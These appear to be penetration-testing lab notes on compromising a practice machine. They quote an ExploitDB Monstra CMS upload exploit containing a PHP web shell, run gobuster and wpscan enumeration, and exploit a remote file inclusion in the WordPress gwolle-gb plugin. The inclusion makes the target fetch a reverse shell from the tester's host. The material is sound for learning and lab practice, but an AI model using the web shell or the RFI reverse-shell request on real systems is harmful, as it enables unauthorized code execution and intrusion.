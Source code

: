 Found a public exploit for authenticated RCE for Monstra CMS 3.0.4 ([ExploitDB](https://www.exploit-db.com/exploits/49949))

- For some reason this exploit did not work. Found another exploit on ExploitDB - 43348 that provides manual steps to reproduce RCE

```txt
Steps to Reproduce:

1. Login with a valid credentials of an Editor
2. Select Files option from the Drop-down menu of Content
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

<?php

 $cmd=$_GET['cmd'];

 system($cmd);

 ?>

4. Click on Upload
5. Once the file is uploaded Click on the uploaded file and add ?cmd= to
the URL followed by a system command such as whoami,time,date etc.
```

- This did not work either
- Ran gobuster on http://10.10.10.88/webservices and found a wordpress directory that was not part of robots.txt
- http://10.10.10.88/webservices/wp/
- Ran `wpscan`
```bash
wpscan --url http://10.10.10.88/webservices/wp/ --enumerate p --plugins-detection aggressive
```
- Found a plugin gwolle-gb that is vulnerable to RFI
- Verified RFI by making a request to 
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.7/
- It by default made a request to
![[Pasted image 20240903114705.png]]
- copied php-reverse-shell.php and renamed it to wp-load.php which the server fetches by default
- http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.7:8888/
- Got reverse shell as `www-data`